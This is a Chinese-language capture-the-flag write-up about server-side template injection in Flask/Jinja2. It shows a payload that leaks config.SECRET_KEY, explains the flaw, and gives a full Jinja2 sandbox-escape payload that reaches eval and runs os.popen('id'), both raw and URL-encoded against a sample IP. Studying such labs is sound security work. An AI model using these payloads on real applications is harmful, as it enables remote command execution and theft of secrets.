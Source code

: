 # 题目描述
打开直接看源码
![image](https://user-images.githubusercontent.com/24989246/173508561-716d04f7-d0a2-4ce6-bb35-4dc7f317f0fc.png)
# 解题思路
这里了解了一下什么是模板注入
这里针对的是flask模板，config是flask模板中的一个全局对象。包含了所有应用程序的配置值。
注释中有提示是SECRET_KEY
这里直接在url中写上?flag={{config.SECRET_KEY}}
![image](https://user-images.githubusercontent.com/24989246/173509161-edfbc314-00d6-4ea9-8476-5e1db4a44cee.png)
# 模板注入总结
## 1、什么是SSTI？

SSTI就是服务器端模板注入(Server-Side Template Injection)，实际上也是一种注入漏洞。

可能SSTI对大家而言不是很熟悉，但是相信大家很熟悉SQL注入。实际上这两者的思路都是相同的，因此可以类比来分析。

## 2、引发SSTI的真正原因

render_template渲染函数的问题

渲染函数在渲染的时候，往往对用户输入的变量不做渲染。

也就是说例如：{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{}}包裹的内容当做变量解析替换。比如{{1+1}}会被解析成2。如此一来就可以实现如同sql注入一样的注入漏洞

## 3、判断类型
![image](https://user-images.githubusercontent.com/24989246/173509402-624cc9f7-36f5-4e23-9e54-d6e8e5358196.png)

# 常见的模板注入利用方式
## 1、官方的漏洞利用方法：
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
 把上面这一串当做name参数传递即可实现命令执行：
```shell
 http://192.168.1.10:8000/?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```


